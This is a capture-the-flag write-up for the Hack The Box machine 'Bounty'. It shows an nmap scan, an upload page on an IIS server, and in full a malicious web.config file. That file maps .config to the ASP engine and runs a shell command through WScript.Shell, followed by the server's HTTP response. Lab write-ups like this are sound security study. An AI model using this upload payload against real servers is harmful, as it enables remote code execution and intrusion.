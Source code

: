 142 - Bounty
============

Mandatory nmap scan:
```bash
❯❯❯ sudo nmap -sS -Pn --top-ports 200 10.10.10.93
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-12 08:14 CEST
Nmap scan report for 10.10.10.93
Host is up (0.048s latency).
Not shown: 199 filtered ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 5.48 seconds
```

During the enumeration of the web server, one upload page and one storage directory were found:
- `/transper.aspx`
- `/uploadedfiles/`

After a lot of tests on the upload file and much time lost because of the wizard of ImageMagick. I found out that we can upload a `web.config` file that allows to run code on the server. The following `web.config` can be uploaded:
```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("ipconfig")
output1 = cmd1.StdOut.Readall()
Set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
%>
```

Once downloaded using the URL <http://10.10.10.93/uploadedfiles/web.config>, the following content is shown in the HTTP response:
```
HTTP/1.1 200 OK
Cache-Control: private
Content-Length: 1151
Content-Type: text/html
Server: Microsoft-IIS/7.5
Set-Cookie: ASPSESSIONIDQARSDSQT=FPOFLBLDAHMBNLPPOLELMHNH; path=/
X-Powered-By: ASP.NET
Date: Thu, 12 Jul 2018 14:36:18 GMT
Connection: close

```